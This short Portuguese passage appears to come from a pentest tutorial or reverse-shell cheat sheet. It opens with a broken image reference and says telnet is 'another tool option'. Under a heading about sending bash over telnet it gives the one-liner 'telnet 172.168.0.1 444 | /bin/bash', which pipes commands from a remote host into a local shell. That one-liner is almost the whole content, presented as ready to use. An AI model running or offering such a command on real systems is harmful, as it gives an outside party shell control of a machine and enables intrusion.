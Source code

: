 Outra opção de ferramenta que pode ser usada.

Conectando e enviando o bash pelo telnet
	telnet 172.168.0.1 444 | /bin/bash